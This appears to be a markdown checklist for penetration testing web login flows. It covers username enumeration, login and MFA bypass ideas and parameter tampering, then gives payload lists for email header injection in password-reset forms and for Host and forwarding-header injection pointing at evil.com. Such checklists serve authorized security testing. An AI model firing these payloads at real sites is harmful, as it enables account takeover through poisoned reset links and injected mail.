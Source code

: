 # **🔍 Information Gathering & Enumeration**

### ✅ **Verbose Error Messages**

- Look for error messages that reveal valid usernames, email formats, or system behavior.
    
- Compare responses for:
    
    - Invalid email vs. valid email but wrong password.
    - Nonexistent vs. existing users.
- you can add multiple credentials:
    
    ```
    {
    "username": "carlos",
    "password": ["Hh123123","Hh123123"]
    }
    
    {
    "username": "carlos",
    "password[password]": "Hh123123"
    }
    
    {
    "username": "carlos",
    "password": {"password":"Hh123123"}
    }
    ```
    

### ✅ **Username Enumeration**

- Check if usernames are non-unique.
- If the app generates usernames, create multiple accounts and analyze patterns.

### ✅ **Forgot Password Analysis**

- Request multiple password reset links and look for predictable patterns.

### ✅ **Account Activation Links**

- Try using activation links multiple times.
- Request multiple activation URLs and check for predictable structures.

---

## **🔓 Login Bypass & Manipulation**

### ✅ **Testing Login with Missing or Empty Data**

- Attempt login with **no username and password**.
- Try using **empty strings** as values.
- **Remove parameters** entirely and observe behavior.

### ✅ **Redirect URL Tampering**

- Modify redirect parameters in requests to test for open redirection or authentication bypass.

### ✅ **Skipping Steps in Multi-Step Login**

- Try jumping to later authentication steps without completing previous ones.
- Directly access authenticated pages without logging in.

### ✅ **Resubmitting Authentication Requests**

- Capture login requests and resend them with:
    - Different values.
    - Modified parameters.
    - Duplicate parameters.

### ✅ **Bypass “Email Already Exists”**

- Create same email but captial letter
- Edd %20 to bypass email already exist
- SSO logins via okta or auth0

---

## **⚙️ Parameter Manipulation & Edge Cases**

### ✅ **Manipulate Login Parameters One by One**

- **Empty string (`""`)** as the value.
- **Remove the parameter** completely.
- **Use strings instead of numbers** where applicable.
- **Duplicate parameters** in the request.
- **Try different encodings** (URL encoding, Base64, Unicode, etc.).
- **Test case sensitivity** of credentials.

### ✅ **Replay Authentication Requests**

- Resend login requests to check for potential replay vulnerabilities.

---

## **🔑 MFA & Password Security**

### ✅ **Multi-Factor Authentication (MFA) Testing**

- Try bypassing MFA by accessing protected resources directly.
- Check if backup codes are predictable or reused.

### ✅ **Weak Password Policies**

- Test for weak password restrictions by trying:
    - Short passwords.
    - Common passwords (`123456`, `password`, etc.).
    - Reused old passwords.

### ✅ **Generated Password Patterns**

- If the system generates passwords, request multiple and analyze for patterns.

---

## 🧪 Email Header Injection Testing (Forgot Password Function)

Use the following tips to test for **email header injection** vulnerabilities in password reset flows.

## 🔥 **Payloads to Try**

---

Replace `<youremail>` with your real email address:

```
<youremail>%0aCc:<youremail>
<youremail>%0d%0aCc:<youremail>
<youremail>%0aBcc:<youremail>
<youremail>%0d%0aBcc:<youremail>

%0aDATA%0afoo%0a%2e%0aMAIL+FROM:+<youremail>%0aRCPT+TO:+<youremail>%0aDATA%0aFrom:+<youremail>%0aTo:+<youremail>%0aSubject:+test%0afoo%0a%2e%0a

%0d%0aDATA%0d%0afoo%0d%0a%2e%0d%0aMAIL+FROM:+<youremail>%0d%0aRCPT+TO:+<youremail>%0d%0aDATA%0d%0aFrom:+<youremail>%0d%0aTo:+<youremail>%0d%0aSubject:+test%0d%0afoo%0d%0a%2e%0d%0a

```

## 🌐 Host Header Injection

```bash
Host: [evil.com](<http://evil.com/>)
Host: [evil.com:8080](<http://evil.com:8080/>)
Host: [evil.com/](<http://evil.com/>)
Host: [evil.com.legitimate.com](<http://evil.com.legitimate.com/>)
Host: [evil.com@legitimate.com](<mailto:evil.com@legitimate.com>)
Host: [evil.com#legitimate.com](<http://evil.com/#legitimate.com>)
Host: 127.0.0.1
Host: localhost
Host: 0.0.0.0
Host: [::1]

X-Forwarded-Host: [evil.com](<http://evil.com/>)
X-Forwarded-Host: [evil.com](<http://evil.com/>), [legitimate.com](<http://legitimate.com/>)
X-Forwarded-Host: [evil.com](<http://evil.com/>)%[00legitimate.com](<http://00legitimate.com/>)
X-Forwarded-Host: evil%2ecom
X-Forwarded-Host: evil%2fcom
X-Forwarded-Host: [evil.com](<http://evil.com/>)%0d%0aAnother-Header: injected
X-Forwarded-Host: [evil.com](<http://evil.com/>)%0d%0aLocation:%20http://evil.com

X-Forwarded-Server: [evil.com](<http://evil.com/>)
X-Forwarded-Server: [evil.com](<http://evil.com/>), [legitimate.com](<http://legitimate.com/>)

X-Host: [evil.com](<http://evil.com/>)
X-Host: [evil.com:443](<http://evil.com:443/>)

X-Forwarded-For: [evil.com](<http://evil.com/>)
X-Forwarded-For: [evil.com](<http://evil.com/>), 127.0.0.1

X-Original-Host: [evil.com](<http://evil.com/>)
X-Original-Host: [evil.com](<http://evil.com/>), [legitimate.com](<http://legitimate.com/>)

X-Remote-Host: [evil.com](<http://evil.com/>)
X-Remote-Host: 127.0.0.1

X-Client-Host: [evil.com](<http://evil.com/>)

Forwarded: [host=evil.com](<http://host=evil.com/>)
Forwarded: [by=evil.com](<http://by=evil.com/>);[host=evil.com](<http://host=evil.com/>);proto=https
Forwarded: [for=evil.com](<http://for=evil.com/>);[host=evil.com](<http://host=evil.com/>)

Origin: [evil.com](<http://evil.com/>)
Origin: [<http://evil.com>](<http://evil.com/>)

Referer: [evil.com](<http://evil.com/>)
Referer: [<http://evil.com>](<http://evil.com/>)

X-Original-URL: /evil.com
X-Rewrite-URL: /evil.com

# Double Headers Trick

Host: [evil.com](<http://evil.com/>)
Host: [legitimate.com](<http://legitimate.com/>)

X-Forwarded-Host: [evil.com](<http://evil.com/>)
X-Forwarded-Host: [legitimate.com](<http://legitimate.com/>)

Forwarded: [host=evil.com](<http://host=evil.com/>)
Forwarded: [host=legitimate.com](<http://host=legitimate.com/>)
```